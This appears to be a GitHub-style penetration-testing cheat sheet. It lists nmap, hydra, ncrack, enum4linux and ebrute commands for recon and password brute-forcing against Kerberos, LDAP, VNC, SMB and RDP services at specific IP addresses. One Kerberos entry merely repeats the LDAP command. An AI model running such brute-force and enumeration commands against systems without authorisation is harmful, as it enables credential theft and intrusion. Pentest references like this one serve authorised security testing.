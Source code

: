 ### Domain Security Accessment

```
Kerberos Recon

Port 	88 	Kerberous
Port 	464 Kpassword
Port 	749 Kerberos-admin

Username enumeration Kerberos With Nmap

nmap -Pn -sV -p389 --script ldap-rootdse,ldap-search 50.116.56.5


Brute-force password grinding

ebrute.exe -r kerbenum -U users.txt -e research -h 172.16.102.11

```


### LDAP Attacking 


```
LDAP Recon

Port 	389 LADP
Port 	636 LDAPS


Fingerprinting and Anonymous Blind With Nmap

nmap -Pn -sV -p389 --script ldap-rootdse,ldap-search 50.116.56.5

Brute-Force Password 

ebrute.exe -r ldap -u da_craigb -h 172.16.102.12 -e research -t 10 -P pass.txt
 
 ```
 
 
 
 ### Attacking VNC Servers
 
```

Recon VNC with Nmap

nmap -Pn -sSVC -p5900 128.32.147.121

nmap -sSUC -p111 192.168.10.1
 
```

### Attacking SMB 

```
enum4linux -U -S -P -o 192.168.1.15 (Anonymous IPC Access via SMB) 
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1

```
### Attacking RDP Service

```
RDP brute-force

ncrack -vv --user Administrator –P common.txt 10.0.0.4:3389

nmap -p3389 --script rdp-enum-encryption 10.0.0.4(Transport Security)

```

